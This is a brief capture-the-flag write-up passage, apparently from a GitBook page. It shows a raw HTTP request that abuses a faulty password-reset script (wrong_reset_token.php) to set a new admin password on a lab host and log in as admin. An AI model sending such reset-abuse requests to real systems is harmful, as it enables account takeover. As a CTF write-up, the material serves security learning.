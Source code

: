 <figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### Exploit wrong\_reset\_token.php and login as admin

```http
GET /wrong_reset_token.php?email=admin@ghazycorp.com&token1=1636183611&token2=1752585671&new_password=sovietsoviet1 HTTP/1.1
Host: 20.55.48.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=ee87a5983e941fe7244df167fecd6d08
Upgrade-Insecure-Requests: 1

```

And password is changed so now we can login as admin

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>



## Read the flag
